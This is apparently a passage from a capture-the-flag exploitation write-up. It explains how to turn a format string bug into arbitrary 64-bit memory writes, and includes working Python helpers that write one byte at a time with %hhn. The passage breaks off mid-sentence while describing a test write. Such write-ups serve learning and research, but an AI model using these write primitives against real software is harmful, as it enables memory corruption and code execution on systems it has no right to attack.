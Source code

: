 ```python
```

### Step 3. Creating arbitrary 64-bit writes
Once the base address is calculated we can now create a function to make arbitrary writes.

Since %n can only save as ints, the max value we would be able to write anywhere at a time, would be 32-bit.

However printing something along the lines of 0x10000000 would take a very long time, and is not really efficient. So since we have unlimited format string calls, we will first create a function to make arbitrary 8bit writes, then extend it to make arbitrary 64-bit writes:

```python
def arb_write_8(addr,data):
    payload = b''
    if data == 0: #If the amount is 0, we shouldn't print anything before %n
        payload = f"%10$hhn".encode()
    else:
        payload = f"%{data}c%10$hhn".encode()
    
    #Calculate the padding for us to be able to put a pointer afterwards. The fmt_string for 8bit arbitrary write should never go over 16.
    padding = b'A'*(16-len(payload))
    payload+=padding

    #Add the pointer we want to write to
    payload+=p64(addr)

    # Send the payload
    send_format_string(payload)

def arb_write_64(addr,data):
    #Calculate all bytes to write
    to_write = [
        data & 0xff,
        (data >> 8) & 0xff,
        (data >> 16) & 0xff,
        (data >> 24) & 0xff,
        (data >> 32) & 0xff,
        (data >> 40) & 0xff,
        (data >> 48) & 0xff,
        (data >> 56) & 0xff,
        ]
    #Write everything one byte at a time
    for i in range(0,len(to_write)):
        arb_write_8(addr+i,to_write[i])
``` 

Once that is done, we can test the function by writing to an arbitrary read-writable part of memory.

In this case I chose address 0x4040, since it is easy to check and decided to write the value 0xff00ff00ff10ff01 as it contains all different types of 8-bit payloads, we could end up writing:
